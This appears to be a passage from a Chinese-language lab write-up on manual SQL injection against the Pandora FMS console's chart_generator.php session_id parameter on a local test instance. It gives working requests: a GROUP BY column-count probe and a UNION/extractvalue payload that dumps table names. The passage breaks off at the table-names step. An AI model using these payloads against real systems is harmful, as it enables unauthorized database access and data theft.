 ### 手注

#### 判断列数

```http
##判断列数
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1%27%20group%20%20by%203--%20


```

四列时报错，三列时正常回显

#### 数据库名

```http
##数据库名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```

![image-20250403174739239](./Pandora/image-20250403174739239.png)

#### 表名
